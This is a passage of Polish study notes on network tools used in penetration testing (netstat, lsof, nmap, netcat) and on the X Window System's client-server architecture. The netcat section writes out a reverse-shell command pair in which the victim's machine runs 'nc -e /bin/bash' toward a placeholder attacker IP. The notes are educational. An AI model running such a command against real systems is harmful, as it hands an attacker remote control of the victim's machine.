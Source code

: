 #### C. Narzędzia do testów penetracyjnych (sieciowe)
*   **`netstat`**: Wszechstronne narzędzie do wyświetlania aktywnych połączeń sieciowych (TCP, UDP), portów nasłuchujących, tabeli trasowania, statystyk sieciowych.
    *   **Parametry**:
        *   `-a`: Wszystkie aktywne połączenia i porty nasłuchujące.
        *   `-n`: Adresy i porty w postaci numerycznej (bez konwersji na nazwy).
        *   `-o`: Z identyfikatorami procesów (PID).
        *   `-p <protokół>`: Połączenia dla określonego protokołu (np. `tcp`, `udp`).
        *   `-r`: Tabela trasowania IP.
        *   `-s`: Statystyki dla protokołów.
    *   **Zastosowanie w pentestach**: Do szybkiego skanowania sieci i wykrywania anomalii.
*   **`lsof`**: Wyświetla listę otwartych plików i procesów, w tym porty sieciowe.
    *   **Parametry**:
        *   `-i`: Pokazuje połączenia sieciowe (TCP/UDP).
        *   `-P`: Wyświetla numery portów zamiast nazw usług.
        *   `-n`: Wyłącza resolucję DNS (szybsze).
        *   `-p <PID>`: Filtruje po PID procesu.
    *   **Zastosowanie w pentestach**: Do szczegółowej analizy procesów i plików, identyfikacji procesów używających portów.
    *   **Pytanie**: `lsof` lepiej nadaje się do znalezienia nasłuchującego procesu `nc` na twoim komputerze, ponieważ bezpośrednio pokazuje PID i nazwę procesu (`-i` i `-P` są bardzo pomocne).
*   **`nmap` (Network Mapper)**: Służy do skanowania portów i wykrywania usług w sieci, identyfikacji systemów operacyjnych.
    *   **Parametry**:
        *   `-sP` / `-sn`: Ping scan – sprawdza, które hosty są aktywne (bez skanowania portów).
        *   `-sS`: SYN scan (szybki i dyskretny, nie nawiązuje pełnego połączenia TCP).
        *   `-sT`: TCP connect scan (standardowe połączenie TCP, łatwiejsze do wykrycia).
        *   `-sU`: UDP scan (wolne, ale pokazuje otwarte porty UDP).
        *   `-sV`: Wersjonowanie usług (np. Apache 2.4.7).
        *   `-O`: Wykrywanie systemu operacyjnego.
*   **`netcat` (nc)**: Uniwersalne narzędzie skanująco-monitorujące, prosty serwer. Może być używany do ataku „reverse shell”, gdzie ofiara nieświadomie inicjuje połączenie do atakującego, dając mu kontrolę nad systemem.
    *   **Reverse shell**:
        *   Atakujący (serwer): `nc -lvnp <PORT>` (nasłuchuje na porcie).
        *   Atakowany (klient): `nc -e /bin/bash <IP_ATAKUJACEGO> <PORT>` (nawiązuje połączenie i udostępnia powłokę bash).

---

### 6. X Window System

#### A. Architektura i komponenty
*   **X Window System (X, Xorg)**: Kolekcja funkcji i protokołów wyświetlających informacje graficzne na ekranie i administrujących klawiaturą/myszą. Bezpłatną implementacją jest Xorg (Linux). Stanowi podstawę GUI, ale sam nie dostarcza interfejsu graficznego użytkownika.
*   **Architektura klient-serwer**:
    *   **X-Serwer (np. Xorg)**: Uruchomiony na maszynie lokalnej. Obsługuje urządzenia wejścia/wyjścia (monitor, klawiatura, mysz) i rysuje komponenty.
    *   **X-Klient (np. Firefox, Eclipse)**: Uruchomiony na maszynie zdalnej (lub lokalnej). Wysyła do X-serwera informacje o tym, jakie komponenty narysować, i odbiera informacje o zdarzeniach.
    *   `localhost` (127.0.0.1) jest używany w przypadku pojedynczej maszyny.
*   **Komponenty dodatkowe**:
    *   **X Font Serwer (xfs)**: Przelicza parametry czcionek i udostępnia je X-serwerowi.
    *   **Menadżer Okien (Window Manager)**: Odpowiada za wygląd okien (ramki, przyciski, menu) i zachowanie interfejsu użytkownika. Wybierany przez użytkownika. Przykłady: Fluxbox, KWin (KDE), Openbox, i3, Enlightenment.
    *   **Display Manager (Menadżer logowania)**: Odpowiada za uruchomienie serwera X i wyświetlenie ekranu logowania. Wspólny dla wszystkich użytkowników. Po uwierzytelnieniu uruchamia odpowiedniego Window Managera. Przykłady: lightDM, kdm, gdm, xdm.
